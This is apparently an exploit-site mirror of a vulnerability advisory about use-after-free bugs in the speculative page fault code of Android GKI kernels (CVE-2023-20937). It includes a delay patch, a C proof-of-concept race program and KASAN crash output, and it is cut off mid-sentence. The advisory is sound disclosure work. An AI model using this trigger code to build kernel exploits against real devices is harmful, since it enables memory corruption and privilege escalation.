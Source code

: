 ```yaml
---
title: Android GKI Kernels Contain Broken Non-Upstream Speculative Page Faults MM Code exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:171239&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-07
fetch_date: 2025-10-04T08:47:37.293623
---
```


# Android GKI Kernels Contain Broken Non-Upstream Speculative Page Faults MM Code exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Android GKI Kernels Contain Broken Non-Upstream Speculative Page Faults MM Code CVE-2023-20937

2023-03-06 | CVSS 0.7

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:171239
Android: GKI kernels contain broken non-upstream Speculative Page Faults MM code

A central recurring theme in Linux MM development is that contention on the
mmap lock can have a big negative performance impact on multithreaded workloads:
If one thread is holding the mmap lock in exclusive mode for an extended amount
of time, other threads will block as soon as they try to handle a page fault.

Therefore there is a bunch of work to downgrade exclusive lock holders to
non-exclusive lock holders, shrink critical sections, and avoid holding the lock
altogether in some cases.

One proposal to avoid holding the mmap lock in page fault handling are
\"Speculative page faults (SPF)\"; here's a patch series from 2019 that had already
gone through 11 rounds of review:
<https://lore.kernel.org/lkml/20190416134522.17540-1-ldufour@linux.ibm.com/t/>
This patch series didn't land at the time; but something along those lines might
land upstream in the next few years.

But for some reason, Android decided that they need speculative page faults
immediately, and merged the patches that were discussed on the upstream mailing
list into their GKI kernels. This is problematic for two reasons:

A) The MM code is complicated and easy to get wrong.
If you run MM code that has not been through the fuzzing, testing and review
that committed upstream code gets, there's a higher chance of undiscovered
bugs.
B) The SPF patches **change the rules** that MM code has to follow, so now
Android's version of MM has different rules than upstream MM.
This means that any patches in vaguely related parts of upstream MM need to
be checked by an Android engineer to see if they conflict with Android's
special rules.

As far as I can tell, there are a bunch of memory safety bugs in the SPF version
that is currently in AOSP's android13-5.10 branch (at commit 232bdcbd660b):

1. handle_pte_fault() calls pmd_none() without protection against concurrent
page table deletion, leading to UAF read.
2. do_anonymous_page() calls pte_alloc() without protection against concurrent
page table deletion, leading to UAF write.
3. do_anonymous_page() calls pmd_trans_unstable() without protection against
concurrent page table deletion, leading to UAF read.
4. do_swap_page() -> migration_entry_wait() -> __migration_entry_wait() operates
on a page table without protection against concurrent page table deletion,
leading to use-after-union-change read+write in struct page (on the page
table lock) and use-after-free read of a page table entry (resulting in bogus
page* calculation)
5. do_wp_page() calls handle_userfault() without protection against concurrent
userfaultfd_release(), leading to UAF reads of some flags from
userfaultfd_ctx.
I think back when the SPF series was posted upstream, there might have been
sufficient protection against this (because ___handle_speculative_fault()
bails on VMAs with VM_UFFD_MISSING), but since then the WP userfaultfd
support was added, and ___handle_speculative_fault() doesn't bail on
VM_UFFD_WP. do_wp_page() also doesn't check the cached VMA flags, it uses
userfaultfd_pte_wp() which reads flags from the VMA.
6. The way seqcounts are used to detect concurrent writers looks wrong.
The seqcount API requires that only one writer at a time can be in a
vm_write_begin() / vm_write_end() section, but these helpers are used in
codepaths that only hold the mmap lock in shared mode, so there can be
concurrent writers.
As far as I can tell, this means that when there are an even number of
concurrent writers, it will look as if there are no active writers.
This _probably_ doesn't have much security impact because all of the places
that do vm_write_begin() where concurrency would be an actual problem seem to
hold the mmap lock in exclusive mode?

As an example, I tested issue 2. To reproduce this easily, I patched an extra
delay into the kernel:

```
diff --git a/mm/memory.c b/mm/memory.c
index 83b715ed65775..35ce412d0a965 100644
--- a/mm/memory.c
+++ b/mm/memory.c
@@ -84,6 +84,8 @@
#include <asm/tlb.h>
#include <asm/tlbflush.h>

+#include <linux/delay.h>
+
#include \"pgalloc-track.h\"
#include \"internal.h\"

@@ -3819,6 +3821,12 @@ static vm_fault_t do_anonymous_page(struct vm_fault *vmf)
vm_fault_t ret = 0;
pte_t entry;

+ if (strcmp(current->comm, \"SLOWME\") == 0 && (vmf->flags & FAULT_FLAG_SPECULATIVE)) {
+ pr_warn(\"%s: BEGIN DELAY 0x%lx\
\", __func__, vmf->address);
+ mdelay(2000);
+ pr_warn(\"%s: END DELAY 0x%lx\
\", __func__, vmf->address);
+ }
+
/* File mapping without ->vm_ops ? */
if (vmf->vma_flags & VM_SHARED)
return VM_FAULT_SIGBUS;
```

Then, I ran this testcase on an x86 build with ASAN and CONFIG_PREEMPT:
```
#define _GNU_SOURCE
#include <pthread.h>
#include <err.h>
#include <unistd.h>
#include <sys/prctl.h>
#include <sys/mman.h>

// basic idea:
// delete the 1G-covering page table while do_anonymous_page() is at its entry
// point

#define VMA_ADDR ((void*)0x40000000UL)
#define VMA_SIZE (0x40000000UL)

#define SYSCHK(x) ({ \\
typeof(x) __res = (x); \\
if (__res == (typeof(x))-1) \\
err(1, \"SYSCHK(\" #x \")\"); \\
__res; \\
})

static void *thread_fn(void *dummy) {
SYSCHK(prctl(PR_SET_NAME, \"SLOWME\"));
*(volatile char *)VMA_ADDR;
SYSCHK(prctl(PR_SET_NAME, \"spfthread\"));
}

int main(void) {
SYSCHK(mmap(VMA_ADDR, VMA_SIZE, PROT_READ|PROT_WRITE,
MAP_ANONYMOUS|MAP_PRIVATE|MAP_FIXED_NOREPLACE, -1, 0));
SYSCHK(madvise(VMA_ADDR, VMA_SIZE, MADV_NOHUGEPAGE));
// create anon_vma and page tables
*(volatile char *)(VMA_ADDR+0x1000) = 1;

pthread_t thread;
if (pthread_create(&thread, NULL, thread_fn, NULL))
errx(1, \"pthread_create\");

sleep(1);
munmap(VMA_ADDR, VMA_SIZE);

if (pthread_join(thread, NULL))
errx(1, \"pthread_join\");
return 0;
}
```

This first results in a UAF read of a PTE:
```
do_anonymous_page: BEGIN DELAY 0x40000000
do_anonymous_page: END DELAY 0x40000000
==================================================================
BUG: KASAN: use-after-free in handle_pte_fault (./arch/x86/include/asm/pgtable_types.h:394 ./arch/x86/include/asm/pgtable.h:823 mm/memory.c:3844 mm/memory.c:4687)
Read of size 8 at addr ffff88800f358000 by task SLOWME/724

CPU: 12 PID: 724 Comm: SLOWME Not tainted 5.10.107-00033-g232bdcbd660b-dirty #215
Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.16.0-debian-1.16.0-4 04/01/2014
Call Trace:
dump_stack_lvl (lib/dump_stack.c:120)
[...]
print_address_description.constprop.0 (mm/kasan/report.c:257)
[...]
[...]
kasan_report.cold (mm/kasan/report.c:444 mm/kasan/report.c:460)
[...]
handle_pte_fault (./arch/x86/include/asm/pgtable_types.h:394 ./arch/x86/include/asm/pgtable.h:823 mm/memory.c:3844 mm/memory.c:4687)
[...]
___handle_speculative_fault (./include/linux/memcontrol.h:686 mm/memory.c:5106)
[...]
__handle_speculative_fault (mm/memory.c:5148)
[...]
do_user_addr_fault (arch/x86/mm/fault.c:1320)
[...]
exc_page_fault (./arch/x86/include/asm/irqflags.h:157 arch/x86/mm/fault.c:1470 arch/x86/mm/fault.c:1518)
[...]
asm_exc_page_fault (./arch/x86/include/asm/idtentry.h:571)
RIP: 0033:0x55d52bfe41fb
```

Then pte_alloc() tries to lock the page table entry:
```
BUG: KASAN: use-after-free in do_raw_spin_lock (kernel/locking/spinlock_debug.c:83 kernel/locking/spinlock_debug.c:112)
Read of size 4 at addr ffff88801a730004 by task SLOWME/724
```

and after that, it will write into the freed page table.

From a security perspective, my recommendation is to fix this by reverting the
speculative page fault patches out of the GKI trees, since I believe that such
a divergence from upstream semantics is not maintainable. Looking through the
commit history of the AOSP android13-5.10 kernel branch also shows that a series
of bugs have already been discovered that were introduced by SPF:

81...